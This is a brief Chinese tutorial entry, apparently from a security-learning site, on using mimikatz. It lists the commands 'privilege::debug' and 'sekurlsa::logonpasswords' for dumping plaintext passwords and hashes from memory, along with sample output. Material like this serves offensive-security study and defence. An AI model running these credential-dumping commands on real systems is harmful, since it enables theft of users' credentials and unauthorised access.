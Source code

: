 # 4.1.1 mimikatz

> 原文：[https://www.zhihuifly.com/t/topic/3416](https://www.zhihuifly.com/t/topic/3416)

### 4.1.1 mimikatz

用法:

```
mimikatz # privilege::debug (提升权限)
Privilege '20' OK
mimikatz # sekurlsa::logonpasswords (抓取明文密码和 hash) 
```

![image](img/2b62e00a405c41ae21d7874d2b61212b.png)